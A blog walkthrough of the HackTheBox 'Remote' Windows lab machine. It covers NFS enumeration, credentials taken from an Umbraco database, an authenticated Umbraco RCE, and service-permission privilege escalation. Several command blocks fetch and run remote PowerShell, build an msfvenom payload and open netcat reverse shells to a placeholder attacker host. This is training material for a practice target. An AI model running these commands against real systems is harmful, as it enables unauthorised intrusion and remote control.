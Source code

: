 ```yaml
---
layout: post
title: HackTheBox Remote walkthrough
gh-repo: c00rni/c00rni.github.io
gh-badge: [star, fork, follow]
tags: [enumeration, hackthebox, powercat, powerup, nfs, netcat, powershell, windows, msfvenom, oscp]
comments: true
---
```


Remote is a HacktheBox windows machine with the ip address 10.10.10.180. Rated as easy on the platform, this machine is highly [CVE](https://cve.mitre.org/about/cve_and_nvd_relationship.html) oriented and similar of what you would encounter in an OSCP exam. I got a foothold on the machine using an authenticated remote code execution on the web server and elevate my privilege through an insecure file permission vulnerability. This box is fun and great to get familiar with windows privilege escalation.

![info_card.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/3b4dc061e2b548afb1e48a934e076f09.png)


# Enumeration

I started with multiple port scans.
## Port scans

![full_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/b7bc801733c0425ab5820880a68c5c86.png)


![detail_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/c6a91f46435c4725bc4b7c6678a4d996.png)


A lot of ports were opened and the enumeration phase can be very time consuming in a penetration test. In order to manage my time efficiently, I spent no longer than 30 minutes on each port and focus my attention in this order:
- Port 80/5985/47001 because they are webservers.
- Port 21, Anonymous login is allowed I might be to upload or download files.
- Port 111/2049 NFS is insecure by design and drives are mounted.
- Port 445 - Samba or SMB can provide very useful information but I need credentials to log in.
- Other ports ...

### Port 80

I found a login page using Umbraco CMS.

![umbraco_login_page.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/16a50ddcc8054aa5b2bb76c7e12826c8.png)

### Port 111

Network File System (NFS) allow users on client computers to access files over the network as if they were on locally mounted storage. NFS is insecure by design. It's not uncommon to see storage open to the world because of miss configurations.

I used NSE Nmap scripts to discover the name of the mount directory.

![nfs_nse_sancs.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/16cf451fc34d48f58e8d9fb9c7ecd362.png)

I mount the remote drive to a directory.
```bash
mkdir site-backups
sudo mount -o nolock 10.10.10.180:/site-backups $PWD/site-backups
```

Found the Umbraco database in a compact file format ([SDF](https://fileinfo.com/extension/sdf)). *This was the most tricky part in my opinion, things could have become difficult without the knowledge of this file format*.

![found_umbraco.sdf.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/8e6c12f1220145e49ab23e099404e464.png)

I extracted the credentials from the raw data and decrypt the password hash [online](https://md5decrypt.net/Sha1/).

![database_content.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/889460b74eb44aa6881903bfcbceaa13.png)

Clair text password:
```plaintext
username: admin@htb.local
password: baconandcheese 
```


# Foothold

I found Umbraco CMS verson with `grep -iR "7.12.4"`. This version were vulnerable to an [authenticated remote code execution](https://www.exploit-db.com/exploits/46153) so I downloaded [noraj Umbraco POC](https://github.com/noraj/Umbraco-RCE). Since I didn't know what was the privileges of the user I was exploiting I executed the `powercat.ps1` script without saving the file on the remote file system by combining the **DownloadString** methode with the Invoke-Expression cmdlet ([**IEX**](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-6)).

Listen for connections:
```bash
sudo nc -lnvp 4444
```

Modified powercat script. Replace the Xs with your ip address.
```bash
cp /usr/share/windows-resources/powercat/powercat.ps1 .
echo 'powercat -c X.X.X.X -p 4444 -e cmd.exe' >> powercat.ps1
```

Extended the powercat directory to be accessible from the server.
```bash
sudo python3 -m http.server
```

Exploit umbraco vulnerability.
```bash
sudo python3 Umbraco-RCE/exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a "iex (New-Object System.Net.Webclient).DownloadString('http://X.X.X.X:8000/powercat.ps1')"
```

![foothold_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/31186d2bc4ed47d3bd4bdec20ba4040d.png)

# Privilege escalation

**Insecure file permission** on services that run as `nt authority\system` are often an easy way to elevate privileges. 

I created a binary with **msfvenom** to replace the vulnerable service.
```bash
msfvenom -p windows/x64/exec CMD="C:\Windows\Temp\nc.exe -e cmd.exe X.X.X.X 9001" -f exe -o evil.exe
```

In order to execute all the Powershell commands in the same session, I opened a Powershell interpreter and moved to a writable directory.
```powershell
powershell.exe
cd c:\windows\temp
```

HarmJ0y `PowerUp.ps1` script from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) github repository is an awnsome tool. It uses several tehcniques base on misconfugurations such as unquoted services paths and improper permission on service executables to attent elevate privileges.

I upload PowerUp script into the server and executed Invoke-AllChecks function.
```powershell
iex (New-Object System.Net.Webclient).DownloadString('http://X.X.X.X:8000/PowerUp.ps1')
Invoke-AllChecks
```


![Invoke-AllChecks.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/23ebf8a49b9a47c3b0318d62251b45bc.png)



Downloaded the binary and netcat to the server.
```powershell
powershell.exe -nop (New-Object System.Net.WebClient).DownloadFile('http://X.X.X.X:8000/evil.exe', 'c:\\Windows\\Temp\\evil.exe')
powershell.exe -nop (New-Object System.Net.WebClient).DownloadFile('http://X.X.X.X:8000/nc.exe', 'c:\\Windows\\Temp\\nc.exe')
```

Open a port for reverse shell connections on my machine.
```bash
sudo nc -lvnp 9001
```

And finaly executed `Invoke-ServiceAbuse` function to run the exploit.
```powershell
Invoke-ServiceAbuse -Name 'UsoSvc' -Command 'C:\Windows\Temp\evil.exe'
```



![root_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/ddb212d55d1446a4b37e3c57c8b606c8.png)

Thanks for reading !

# References
- [https://fileinfo.com/extension/sdf](https://fileinfo.com/extension/sdf)
- [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-6](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-6)
- [https://github.com/noraj/Umbraco-RCE](https://github.com/noraj/Umbraco-RCE)
- [https://md5decrypt.net/Sha1/](https://md5decrypt.net/Sha1/)
- [https://www.exploit-db.com/exploits/46153](https://www.exploit-db.com/exploits/46153)
- [https://cve.mitre.org/about/cve_and_nvd_relationship.html](https://cve.mitre.org/about/cve_and_nvd_relationship.html)
